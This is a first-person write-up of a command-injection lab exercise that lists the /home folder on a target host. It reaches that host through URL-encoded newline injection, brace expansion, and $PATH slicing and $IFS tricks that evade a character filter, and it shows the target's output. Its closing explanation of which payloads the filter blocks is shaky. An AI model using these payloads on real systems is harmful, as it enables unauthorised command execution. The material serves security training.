


## Exercises

### Question 1 — Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?

Before touching Burp, I worked out the character-slicing syntax in my own terminal first, to make sure I had it right before sending anything at the target.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo ${PATH:0:1}

/
```

**Breakdown:**

- `echo` prints whatever follows it to the terminal
- `${PATH:0:1}` slices the environment variable `$PATH`, starting at index `0` (the first character) and taking a length of `1` — since every path in `$PATH` starts with `/`, this always gives back a single `/`

This confirmed slicing gives back the character I'd need to build `/home` without ever typing a literal `/`.

With that working, I tried folding it into a brace-expansion payload, the same combination I'd used for the previous section's space-bypass exercise:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ {ls,${PATH:0:1}home}

zsh: no such file or directory: ls,/home
```

**Breakdown:**

- `{ls,${PATH:0:1}home}` is brace expansion with two comma-separated elements, `ls` and `${PATH:0:1}home` — expanding this should split into two separate words, `ls` and `/home`, giving `ls /home`

That failed outright, and at first I wasn't sure why — the syntax looked right. I went back to a payload I knew had worked before, just to sanity-check the technique itself:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ {ls,-la}

ls,-la: command not found

┌──(—REDACTED—㉿kali)-[~]
└─$ echo {ls,-la}

ls -la
```

Running `{ls,-la}` directly failed the same way, but echoing it printed exactly `ls -la` — so the brace expansion itself was happening correctly, it just wasn't being handed to the shell as a runnable command afterward. That pointed at the shell rather than the syntax: I was in `zsh`, and this two-element brace expansion behaviour is a `bash`-ism that `zsh` doesn't run the same way. So I switched shells:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ bash
┌──(—REDACTED—㉿kali)-[~]
└─$ {ls,${PATH:0:1}home}

—REDACTED—

┌──(—REDACTED—㉿kali)-[~]
└─$ ls /home

—REDACTED—
```

In `bash`, `{ls,${PATH:0:1}home}` expands to `ls /home` and actually runs, confirming the only user folder under `/home` on my own machine is `—REDACTED—`. That was just a local sanity check of the technique, though — not the target's answer, since the target's filesystem is separate from mine.

With the syntax confirmed, I sent the same payload at the target through Burp:

```
ip=127.0.0.1%0A{ls,${PATH:0:1}home}
```

**Breakdown:**

- `127.0.0.1` is the value the `ip` field expects, so it satisfies whatever the application does with it before the injected part
- `%0A` is a URL-encoded newline, used here as the injection operator — the new-line character wasn't blacklisted earlier in the module, so it still works as a fallback way to chain a second command after the ping
- `{ls,${PATH:0:1}home}` is the same two-element brace expansion tested locally, expanding to `ls /home`

The ping output came back as expected, but no `ls` output followed it at all — just the usual ping statistics, nothing more. I wasn't sure why at the time, since the exact same syntax had worked in my own terminal.

I went back to basics and tried the brace-expansion payload from the previous exercise on its own, with no path-slicing involved:

```
ip=127.0.0.1%0A{ls,-la}
```

That one worked, listing the web root itself:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.070 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.070/0.070/0.070/0.000 ms
total 8
drwxr-xr-x. 1 www-data www-data   40 Jul 16  2021 .
drwxr-xr-x. 1 www-data www-data   18 Aug 19  2020 ..
-rw-r--r--. 1 www-data www-data 1613 Jul 16  2021 index.php
-rw-r--r--. 1 www-data www-data 1256 Jul 12  2021 style.css
```



So `ls -la` itself was fine against the target — the earlier failure had to be about something more specific to the path-slicing combination. I tried combining the two again, this time keeping `-la` in:

```
ip=127.0.0.1%0A{ls,-la}%09${PATH:0:1}home
```

**Breakdown:**

- `{ls,-la}` expands to `ls -la`, the same as the payload just tested
- `%09` is a URL-encoded horizontal tab, used here purely as whitespace to separate `ls -la` from the next token
- `${PATH:0:1}home` slices `/` out of `$PATH` as before and concatenates the literal text `home` directly after it, producing `/home`
- Put together, the shell receives `ls -la /home`

That worked and listed `/home` directly:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.075 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.075/0.075/0.075/0.000 ms
total 0
drwxr-xr-x. 1 root     root       22 Jul 16  2021 .
drwxr-xr-x. 1 root     root       39 Nov 17 12:16 ..
drwxr-xr-x. 1 —REDACTED— —REDACTED—   22 Jul 16  2021 —REDACTED—
```



That gave a directory called `—REDACTED—`, owned by a user of the same name — which looked like the actual answer. But I wanted to understand why the earlier attempt without `-la` had failed, since the rest of the combination was otherwise identical.

I tried a plain `pwd`, using the same newline bypass as before but with no brace expansion at all:

```
ip=127.0.0.1%0Apwd
```

Instead of any ping output, the page came back with a completely different response:

```
Invalid input
```

No ping statistics at all — whatever rejected this happened before the command ever ran. I tried `ls` the same way, bare and without braces, piped straight into the path-slicing:

```
ip=127.0.0.1%0Als%09${PATH:0:1}home
```

**Breakdown:**

- `ls` is the bare command, with no brace expansion wrapping it this time
- `%09` is the same tab separator as before, providing the whitespace `ls` needs before its argument
- `${PATH:0:1}home` produces `/home` the same way as in every earlier payload

That didn't work either — no listing came back. At this point I checked the actual validation pattern the form itself uses, to see if it offered any clue:

```
pattern="^((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])$"
```

That's a standard IPv4-format check — four groups of one-to-three digits, each between `0` and `255`, separated by dots, anchored at the start and end. It didn't obviously explain why `{ls,-la}` would get through whatever check corresponds to this while bare `pwd` and bare `ls` didn't, so I kept testing instead of trying to reason it out from the pattern alone.

I tried braces with nothing extra inside them:

```
ip=127.0.0.1%0A{ls}
```

No luck there either. Then I went back to a bare command, keeping the `-la` flag in this time, using `${IFS}` instead of a tab to separate the arguments:

```
ip=127.0.0.1%0Als${IFS}-la${IFS}${PATH:0:1}home
```

**Breakdown:**

- `ls` is the bare command again, same as the failed attempt above
- `${IFS}` expands to Bash's Internal Field Separator variable, which by default holds a space, tab, and newline — used here the same way a literal space would be, as the whitespace between `ls` and its arguments
- `-la` is the flag, now present
- `${PATH:0:1}home` produces `/home` as before

That one worked. Going back to the brace form, but this time folding the command, flag, and path-slice all into one comma-separated list:

```
ip=127.0.0.1%0A{ls,-la,${PATH:0:1}home}
```

**Breakdown:**

- `{ls,-la,${PATH:0:1}home}` is brace expansion with three comma-separated elements — `ls`, `-la`, and `${PATH:0:1}home` — expanding to the three words `ls`, `-la`, and `/home`, which the shell runs as `ls -la /home`

That worked too. Comparing every attempt side by side, the one thing every failing payload had in common was the absence of `-la`, and every payload that included `-la` worked, regardless of whether it used brace expansion, `${IFS}`, or a tab. That also accounts for the very first failed Burp attempt: `{ls,${PATH:0:1}home}` was missing `-la` as well, consistent with everything found afterward.

**Answer:** `—REDACTED—`